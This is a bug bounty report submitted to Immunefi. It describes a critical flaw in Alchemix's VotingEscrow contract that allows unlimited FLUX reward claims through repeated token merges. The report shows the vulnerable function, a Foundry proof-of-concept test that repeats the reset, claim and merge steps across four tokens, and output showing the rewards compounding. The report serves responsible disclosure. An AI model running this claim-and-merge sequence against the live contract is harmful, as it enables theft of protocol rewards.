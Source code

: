 
# Infinite minting of FLUX through Merge

Submitted on Mon May 20 2024 16:10:34 GMT-0400 (Atlantic Standard Time) by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31512

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
Users are able to claim more FLUX rewards than they should simply by merging their tokens. Since the `merge()` operation increases the `_to` token's balance, the `_from` token can simply increment its unclaimed FLUX through `voter.reset()` and then merge its balance into `_to`. Then `_to` can claim with the increased balance. This operation can continue for as many iterations as desired.

## Vulnerability Details
Users increase their unclaimed FLUX balance through `voter.reset()` for their tokens after an epoch has passed. They can then claim their FLUX by calling `FLUX.claimFlux()`.

However, since the `claimableFlux()` FLUX balance of each token is taken at the current `block.timestamp`, a user can simply call `votingEscrow.merge()` to merge their already claimed tokens with an unclaimed token, increasing its balance and effectively doubling their rewards to claim.

```
    function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }


        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

## Impact Details
- Unauthorized claiming of FLUX rewards

## Output from POC
```
[PASS] testAccrueFluxByMergeAndReset() (gas: 4170557)
Logs:
  **Each token should receive 984462360468700917 tokens per epoch
  Claim token1. It claims 1x rewards (normal)
  FLUX Balance 984462360468700917
  --------------------
  Merge the already claimed token1 to the unclaimed token2. Token2's balance increases.
  Claim token2. It claims 2x rewards.
  FLUX Balance 2953387081421625754
  --------------------
  Merge the already claimed token2 to the unclaimed token3. Token3's balance increases.
  Claim token3. It claims 4x rewards.
  FLUX Balance 5906774162843251509
  --------------------
  Merge the already claimed token3 to the unclaimed token4. Token4's balance increases.
  Claim token4. It claims 8x rewards.
  FLUX Balance 9844623604749101184
  --------------------
  After 3 merges, user has claimed 250% more rewards (10x/4x)
```

        
## Proof of concept
## Proof of Concept

```
function testAccrueFluxByMergeAndReset() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId4 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        uint256 claimedBalance = flux.balanceOf(admin);
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId1);

        assertEq(claimedBalance, 0);
        assertEq(unclaimedBalance, 0);

        // Reset token1 to claim the usual amount of flux
        voter.reset(tokenId1);
        unclaimedBalance = flux.getUnclaimedFlux(tokenId1);
        console.log("**Each token should receive %i tokens per epoch", unclaimedBalance);
        console.log("Claim token1. It claims 1x rewards (normal)");
        flux.claimFlux(tokenId1, flux.getUnclaimedFlux(tokenId1));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token1 to the unclaimed token2. Token2's balance increases.");
        veALCX.merge(tokenId1, tokenId2);

        console.log("Claim token2. It claims 2x rewards.");
        voter.reset(tokenId2);
        flux.claimFlux(tokenId2, flux.getUnclaimedFlux(tokenId2));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token2 to the unclaimed token3. Token3's balance increases.");
        veALCX.merge(tokenId2, tokenId3);

        console.log("Claim token3. It claims 4x rewards.");
        voter.reset(tokenId3);
        flux.claimFlux(tokenId3, flux.getUnclaimedFlux(tokenId3));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token3 to the unclaimed token4. Token4's balance increases.");
        veALCX.merge(tokenId3, tokenId4);

        console.log("Claim token4. It claims 8x rewards.");
        voter.reset(tokenId4);
        flux.claimFlux(tokenId4, flux.getUnclaimedFlux(tokenId4));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("After 3 merges, user has claimed 250% more rewards (10x/4x)");

        hevm.stopPrank();
    }
```